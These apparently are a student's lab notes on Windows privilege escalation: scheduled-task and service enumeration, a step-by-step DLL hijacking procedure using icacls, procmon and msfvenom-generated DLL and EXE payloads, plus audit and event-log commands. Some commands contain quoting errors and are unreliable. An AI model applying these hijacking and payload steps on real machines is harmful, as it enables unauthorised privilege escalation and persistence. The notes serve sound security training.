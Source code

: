 ```
schtasks /query /fo LIST /v
```
# DLL Hijacking
```
Identify Vulnerability
Take advantage of the default search order for DLLs
NAME_NOT_FOUND present in executable’s system calls
Validate permissions
Create and transfer Malicious DLL
```
# Finding Vulnerable Services
```
wmic service list full
sc query
```
# Windows 
```
sc.exe to create service
sc.exe create puttyService binPath='C:\Program Files (x86)\Putty\putty.exe' displayname='puttyService start=auto
open task scheduler
new task, name it then click new, triggers tab, at startup, Actions tab, new, browse for location and then ok, general tab, change user, search for system then ok

look at services on windows machine to find anything that does not have description or mispellings
icacls 'C:\Program Files (x86)\Putty' /grant BUILTIN\Users:W
net use z: "\\http://live.sysinternals.com" /persistent:yes
cd z:
./procmon.exe -accepteula
filter -> process name contains putty.exe -> path contains dll -> result is NAME NOT FOUND
if does not work run: (get-process | ?{$_.name -like "putty"}).kill()
find a dll in the same directory as the file 
example of a payload
msfvenom -p windows/exec CMD='cmd.exe /C "whoami" > C:\users\student\Desktop\whoami.txt' -f dll > SSPICLI.dll
for services
sudo msfvenom -p windows/exec CMD='cmd.exe /C "whoami" > C:\users\student\Desktop\whoami.txt' -f exe > putty.exe
```
# Audit Logging
```
Show all audit category settings
auditpol /get /category:*
What does the below command show?
auditpol /get /category:* | findstr /i "success failure"
```
# Event Logging (just run event viewer windows event log viewer)
```
Storage: c:\windows\system32\config\

File-Type: .evtx/.evt

wevtutil el
wmic ntevent where "logfile="<LOGNAME>" list full
```